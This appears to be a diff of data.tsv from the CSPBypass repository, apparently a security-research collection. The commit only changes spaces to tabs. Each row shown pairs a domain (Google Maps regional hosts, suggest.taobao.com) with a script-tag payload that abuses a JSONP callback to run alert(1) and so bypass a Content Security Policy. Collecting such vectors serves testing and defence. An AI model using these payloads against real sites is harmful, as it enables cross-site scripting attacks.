

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Changed spaces to tabs

```diff
--- a/data.tsv
+++ b/data.tsv
-row 97: maps.google.de <script src="https://maps.google.de/maps/api/js?sensor=false&callback=alert(1)"></script>
-row 98: maps.google.lv <script src="https://maps.google.lv/maps/api/js?sensor=false&callback=alert(1)"></script>
-row 99: maps.google.ru <script src="https://maps.google.ru/maps/api/js?sensor=false&callback=alert(1)"></script>
+row 97: maps.google.de | <script src="https://maps.google.de/maps/api/js?sensor=false&callback=alert(1)"></script>
+row 98: maps.google.lv | <script src="https://maps.google.lv/maps/api/js?sensor=false&callback=alert(1)"></script>
+row 99: maps.google.ru | <script src="https://maps.google.ru/maps/api/js?sensor=false&callback=alert(1)"></script>
-row 134: suggest.taobao.com <script src="https://suggest.taobao.com/sug?callback=alert"></script>
+row 134: suggest.taobao.com | <script src="https://suggest.taobao.com/sug?callback=alert"></script>
```
